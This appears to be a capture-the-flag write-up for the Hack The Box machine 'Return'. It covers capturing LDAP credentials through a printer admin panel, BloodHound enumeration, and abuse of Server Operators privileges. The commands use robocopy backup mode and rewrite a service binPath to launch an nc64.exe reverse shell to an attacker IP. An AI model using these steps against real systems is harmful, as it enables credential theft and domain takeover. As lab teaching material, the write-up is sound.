










---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# Return

## Summary

[Return](https://app.hackthebox.com/machines/Return) is an <mark style="color:green;">easy-rated</mark> box with an interesting foothold and a common AD-related privilege escalation. **Initial credentials** are obtained through leveraging a **misconfigured web server**. With a valid domain account at hand, we are able to collect and analyze domain information. The latter reveals a **group membership** that can be exploited in various ways, leading to **full domain compromise**.&#x20;

<table><thead><tr><th width="85" align="right">Step</th><th>Action</th><th>Tool</th><th>Gained</th></tr></thead><tbody><tr><td align="right">1</td><td>Web server enumeration</td><td><a href="https://portswigger.net/burp/communitydownload">Burp Suite</a></td><td>Foothold</td></tr><tr><td align="right">2</td><td>Domain enumeration</td><td><a href="https://x7331.gitbook.io/boxes/tools/tools/active-directory/netexec-cme">NXC</a>, <a href="https://x7331.gitbook.io/boxes/tools/tools/active-directory/bloodhound">BloodHound</a></td><td><a data-footnote-ref href="#user-content-fn-1">EoP</a> path</td></tr><tr><td align="right">3a</td><td>EoP exploitation</td><td><a href="https://x7331.gitbook.io/boxes/tools/tools/active-directory/netexec-cme">NXC</a>, <a href="https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/robocopy">robocopy</a></td><td>Domain compromise</td></tr><tr><td align="right">3b</td><td>EoP exploitation</td><td><a href="https://github.com/Hackplayers/evil-winrm">evil-winrm</a>, <a href="https://ss64.com/nt/sc.html">sc.exe</a></td><td>Domain compromise</td></tr></tbody></table>

## Recon

Let's start, as always, with our [nmap script](https://raw.githubusercontent.com/CSpanias/ctf-scripts/refs/heads/main/nmap-scan.sh).

```bash
nmap-scan.sh 10.10.11.108
Creating directory...
Performing initial scan...
Extracting ports...
Performing an aggresive scan on open ports...
All done! See results: less scans/aggressive_scan.nmap
```

Let's note some things down based on Nmap's output (Figure 1):

1. Based on the yellow-highlighted ports we are dealing with a DC[^2].
2. We can access the box via WinRM[^3] (`5985`).
3. There is an IIS[^4] webserver (`80`) and an SMB[^5] server (`445`) listening.
4. &#x20;The FQDN[^6] is `printer.return.local`.&#x20;

<figure><figcaption><p>Figure 1: Listening ports on the Return machine.</p></figcaption></figure>

The first thing we should do is add the hostname (`printer`), the domain name (`return.local`) and the FQDN (`printer.return.local`) to our local DNS file.

```bash
grep printer /etc/hosts
10.10.11.108    printer return.local printer.return.local
```

Given that webservers have a larger attack surface than SMB and LDAP, we will start exploring the IIS server.

### IIS

Visiting the website, we are greeted with the "**HTB Printer Admin Panel**" title, and, interestingly enough, the **Settings** tab includes an _Update_ page with pre-filled values (Figure 2).

<figure><figcaption><p>Figure 2: The interesting Settings tab on the IIS webserver.</p></figcaption></figure>

There isn't any `robots.txt` file, and fuzzing for directories, subdomains, and vhosts returns nothing. By checking the technologies used on the IIS server, we can search if any known vulnerability exists.


```bash
whatweb http://10.10.11.108
http://10.10.11.108 [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[Microsoft-IIS/10.0], IP[10.10.11.108], Microsoft-IIS[10.0], PHP[7.4.13], Script, Title[HTB Printer Admin Panel], X-Powered-By[PHP/7.4.13]
```


We have the account `svc-printer` which we could use for a BFA[^7], but this does not work as well.

### SMB

We cannot leverage the SMB server as it required valid domain credentials for any kind of enumeration (Figure 3).

```bash
# enumerating SMB shares
nxc smb 10.10.11.108 --shares
# enumerating SMB shares via a NULL session
nxc smb 10.10.11.108 -u '' -p '' --shares
# enumerating SMB shares via a guest session
nxc smb 10.10.11.108 -u 'guest' -p '' --shares
# enumerating SMB shares via an anonymous session
nxc smb 10.10.11.108 -u 'anonymous' -p '' --shares
```

<figure><figcaption><p>Figure 3: Enumerating the SMB server required valid domain credentials.</p></figcaption></figure>

### LDAP

Similarly to SMB, we also cannot get any information from LDAP.

```bash
# enumerating LDAP information
ldapsearch -x -H ldap://printer.return.local -s sub -b 'DC=return,DC=local'
# extended LDIF
#
# LDAPv3
# base <DC=return,DC=local> with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#

# search result
search: 2
result: 1 Operations error
text: 000004DC: LdapErr: DSID-0C090A37, comment: In order to perform this opera
 tion a successful bind must be completed on the connection., data 0, v4563

# numResponses: 1
```

## Foothold

### LDAP Redirection

The `Settings` tab on the IIS server seems the only clue we have, so let's focus on that. By intercepting the request with Burp, we can see that only the `ip` parameter is actually included which seems a bit odd because the page has 3 more (`port`, `username`, `password`).

If we change this field to our attack host's IP address and open a listener on port `389`, we get a string that looks a lot like a password (Figure 4).

```bash
# setting up a malicious LDAP server
sudo nc -lvp 389
```

<figure><figcaption><p>Figure 4: Setting up a malicious LDAP server.</p></figcaption></figure>

Testing the credentials with [NXC](../../tl-dr/active-directory/tools/netexec.md) look legit, and we can also see that `svc-printer` has also WinRM access (Figure 5).


```bash
# validating credentials using LDAP
nxc ldap 10.10.11.108 -u svc-printer -p svc-printer_pass
# validating credentials using SMB
nxc smb 10.10.11.108 -u svc-printer -p svc-printer_pass
# validating credentials using WinRM
nxc winrm 10.10.11.108 -u svc-printer -p svc-printer_pass
```


<figure><figcaption><p>Figure 5: Validating domain credentials.</p></figcaption></figure>

## Privilege Escalation

Checking for SMB shares returns nothing of interest; only the default shares are there. Since we have compromised a domain user, we can collect domain information via [BloodHound](../../tl-dr/active-directory/tools/hounds.md) and snatch the `user.txt` flag (Figure 6).


```bash
# collect domain information
nxc ldap 10.10.11.108 -u svc-printer -p svc-printer_pass --bloodhound -ns 10.10.11.108 -c Group,LocalAdmin,Session,Trusts,Default,DCOnly,DCOM,RDP,PSRemote,LoggedOn,Container,ObjectProps,ACL
# reading the user flag
nxc winrm 10.10.11.108 -u svc-printer -p svc-printer_pass -x 'type c:\users\svc-printer\desktop\user.txt'
```


<figure><figcaption><p>Figure 6: Collecting domain information and reading the user flag.</p></figcaption></figure>

Looking at `svc-printer` a group membership stands out right away: [`Server Operators`](../../tl-dr/active-directory/groups/server-operators.md) (Figure 6). Member of this group have the [`SeBackupPrivilege`](../../tl-dr/active-directory/privileges/sebackupprivilege.md) and the `SeRestorePrivilege` which allows them to perform some interesting operations on a DC.

<figure><figcaption><p>Figure 6: Group memberships of the <code>svc-printer</code> account.</p></figcaption></figure>

### Robocopy

The easiest way to leverage this membership, is using `robocopy` to copy the `administrator`'s `desktop` directory and the read the `root.txt` flag (Figure 7).


```bash
# copying the administrator's desktop directory
nxc winrm 10.10.11.108 -u svc-printer -p svc-printer_pass -x 'robocopy /b C:\users\administrator\desktop C:\programdata\temp'
# reading the root flag
nxc winrm 10.10.11.108 -u svc-printer -p svc-printer_pass -x 'type C:\programdata\temp\root.txt'
```


<figure><figcaption><p>Figure 7: Copying the administrator's desktop directory and reading the root flag.</p></figcaption></figure>

### binPath

Another way to leverage this membership is to first upload the [netcat binary](https://github.com/vinsworldcom/NetCat64/releases) on the target host, find a service and change it's [`ImagePath`](../../tl-dr/active-directory/groups/server-operators.md#imagepath) or [`binPath`](../../tl-dr/active-directory/groups/server-operators.md#binpath). For this to work, we need to find a service to target, but it seems that we can't use any command to list the running services (Figure 8).&#x20;


```bash
# logging into the box via WinRM
evil-winrm -i 10.10.11.108 -u svc-printer -p $(cat svc-printer_pass)
# uploading the binary
upload nc64.exe
# list running services
Get-Service
sc.exe query
```


<figure><figcaption><p>Figure 8: The <code>svc-printer</code> account is not allowed to list the running services.</p></figcaption></figure>

We will need to go blind on this one, and try targerting common services that might exist on a DC[^2], such as VSS[^8]. Let's set up a listener on our attack host first.

```bash
# setting up a listener
nc -lvp 1337
listening on [any] 1337 ...
```

Next, we will modify the VSS's path and restart the service.


```bash
# modifying the binPath of the VSS service
sc.exe config VSS binpath="c:\users\svc-printer\documents\nc64.exe -e cmd 10.10.14.52 1337"
# restarting the service
sc.exe stop VSS
sc.exe start VSS
```


Back to our listener.

```bash
# catching the reverse shell
nc -lvp 1337
listening on [any] 1337 ...
connect to [10.10.14.52] from printer [10.10.11.108] 54064
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

When the service fails to start, then it kills the running process. As a result, our shell will die after about 30 seconds because the service times out (Figure 9).

<figure><figcaption><p>Figure 9: The VSS service fails after half a minute.</p></figcaption></figure>

This can be "fixed" by having `cmd.exe` initiating the `nc64.exe` binary.


```bash
# executing the nc64 binary via CMD
sc.exe config VSS binpath="C:\windows\system32\cmd.exe /c c:\users\svc-printer\documents\nc64.exe -e cmd 10.10.14.52 1337"
# starting the service
sc.exe start VSS
```



[^1]: Elevation of Privileges

[^2]: Domain Controller

[^3]: Windows Remote Management

[^4]: Internet Information Services

[^5]: Server Message Block

[^6]: Fully Qualified Domain Name

[^7]: Brute-Force Attack

[^8]: Volume Shadow Copy Service
